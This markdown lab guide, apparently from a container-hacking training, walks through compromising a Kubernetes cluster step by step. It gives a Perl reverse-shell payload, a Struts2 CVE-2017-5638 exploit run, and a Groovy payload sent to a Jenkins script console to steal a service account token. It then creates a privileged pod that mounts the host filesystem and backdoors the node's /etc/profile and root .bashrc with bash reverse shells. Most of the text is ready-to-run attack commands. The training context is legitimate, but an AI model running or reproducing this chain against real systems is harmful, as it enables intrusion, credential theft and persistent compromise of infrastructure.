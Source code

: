 # Professionally Evil Container Hackery - k8s cluster lab guide

### Do this stuff to hack the k8s cluster
Sorry I will add more explanations soon!

#### 1. Open firefox and navigate to creditdataco.wtf:30080
#### 2. Compromise the app 
Open a terminal in the SamuraiWTF VM.

Set a perl reverse shell payload as an ENV VAR in your shell
```bash
read -r -d '' RSHELL << 'EOF'
use Socket;$i="10.0.2.15";$p=4445;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
EOF
```

Open another terminal and start a listner for out reverse shell:
```bash
nc -lvp 4445
```

From the samuraiwtf vm open a terminal and execute:
```bash
python .kube_cluster/S2-045.py creditdataco.wtf:30080 "perl -e \'$RSHELL\'"
```

This exploits the Struts2 app using cve-2017-5638 to give us command execution on the Struts2 app server.

**BOOM** Reverse shell 

#### 3. Now do your typical recon work but also add in the docker container recon stuff ;)
Oh and also do this in your reverse shell:
```bash
env
```

We now see a bunch of information there. This mostly describes other services within the k8s cluster.
Of interest here is

- `KUBERNETES_PORT=tcp://10.96.0.1:443`
- `JENKINS_SERVICE_PORT=tcp://10.110.112.164:8080`

This tells us a few things:

1. We're in a k8s cluster
2. The ip and port of the k8s master API server
3. That there is a service in the cluster that is exposing a Jenkins pod
4. The ip and port of the Jenkins service

#### 4. Let's try to steal the Jenkins service account JWT from inside the compromised struts pod container

We create a file containing a simple Groovy payload. This payload attempts to read the Jenkins pod's
service account JWT and return it to us.
```bash
cat << EOF > ./groovy.payload
def command = "cat /var/run/secrets/kubernetes.io/serviceaccount/token"
def proc = command.execute()
proc.waitFor()
println "\${proc.in.text}"
EOF
```

Let's run our Jenkins exploit and see what happens:
```bash
T=`curl -d "script=$(cat groovy.payload)" -X POST http://10.110.112.164:8080/scriptText`
```

Check to see if it worked:
```bash
echo $T
```

If we got a JWT in that env var then our exploit worked.
We should now see what we can do with that Jenkins service account token. Since Jenkins is used 
as a part of CI/CD pipelines a lot, it might just have some pretty loose permissions tied to it!

#### 5. On your host maching get the kubectl binary
If it's already on your system then just make a copy of it and skip the next command.
```bash
curl -LO https://storage.googleapis.com/kubernetes-release/release/$(curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt)/bin/linux/amd64/kubectl
```
Let's compress and encode the kubectl binary:
```bash 
mkdir kube
mv kubectl kube/kube
tar -zcvf kube.tar.gz kube
cat kube.tar.gz | base64 > kube.tar.gz.b64
```

Now server the file up:
```bash
python -m SimpleHTTPServer [PORT] 
```

Back in the compromised struts pod 
Get the kubectl payload
```bash
curl http://<ATTACK_IP:PORT>/kube.tar.gz.b64
```
decode and extract the binary
```bash
cat kube.tar.gz.b64 | base64 -d > kube.tar.gz
tar -xjvf kube.tar.gz
mv kubectl_payload/kubectl ./kube
```
make it executable
```
chmod +x ./kube
```

Now let's test it out with out freshly stolen JWT :)
```
./kube --token=$T get pods
```

You should see something like the follwoing: 
```
NAME                       READY   STATUS    RESTARTS   AGE
jenkins-56dbd7c74b-qb8hs   1/1     Running   0          3d3h
struts-866b9dfb6c-cldbv    1/1     Running   0          3d3h
useless-pod                1/1     Running   0          3d3h
```

**It worked!** (the tool picked up the k8s api endpoint to use from the ENV variables we examined earlier)

Okay, so let's create a file containing a JSON payload which describes a new k8s pod.
```bash
cat << EOF > pod
{
	"apiVersion": "v1",
	"kind": "Pod",
	"metadata": {
		"name": "evilpod"
	},
	"spec": {
		"containers": [{
			"name": "evil-container",
			"image": "ubuntu:trusty",
			"command": [
                "sleep",
                "infinity"
			],
			"securityContext": {
				"privileged": true
			},
			"volumeMounts": [{
				"mountPath": "/mnt/host",
				"name": "evilvolume",
				"mountPropagation": "Bidirectional"
			}]
        }],
        "volumes": [{
			"name": "evilvolume",
			"hostPath": {
				"path": "/"
			}
		}]
	}
}
EOF
```
This pod will simply run the command `sleep infinity` and we will create a bidirectional bind volume which 
k8s will mount into the pod's containers. This volume mount will mount the cluster node to which the pod get's 
provisioned into the containers under `/mnt/host`.

Create our evil pod
```bash
./kube --token=$T apply -f pod
```
Check the pods status
```bash
./kube --token=$T get pods
```

Pivot into the new pod
```bash
./kube --token=$T exec -it evilpod /bin/bash
```

**BANG** We've just attached into the pod we created, time to escape to the host system!!

**NOTE:** It's here that you might want to do some more recon on what binaries are available in the host
mount with something like `ls /mnt/host/bin | grep "tool_you_wish_were_installed"`

Now we backdoor the host node with a bash reverse shell because why not (ymmv - use a reverse shell payload based on your recon)
```bash
# backdoor the host node's /etc/profile to run our shell when a login happens, hopefully we catch a root login ;)
echo "\$(bash -i >& /dev/tcp/10.0.2.15/4444 0>&1) &" >> /mnt/host/etc/profile
# OR if that doesn't work (maybe a non-login shell is started) we backdoor root users ~/.bashrc file
# Create it if it doesn't exist
touch /mnt/host/root/.bashrc
# set it to exec our perl reverse shell
echo "\$(bash -i >& /dev/tcp/10.0.2.15/4444 0>&1) &" > /mnt/host/root/.bashrc
```

Open another terminal on our host vm and listen for connect back
```bash
nc -lvp 4444
```

Now let's pretend that we are the cluster admin and we login into our node that happens to be compromised.
For the sake of demo we'll do this with docker from our host vm.
```bash
# simulate a cluster admin loging into the node as root
docker exec -it kind-control-plane /bin/bash
```

**WOW** we now have a shell on the cluster node, meaning we've escaped out of the cluster. 
BTW, kind-control-plane is the name of the container being used to simulate the k8s cluster master node :)

#### That's all! (for now)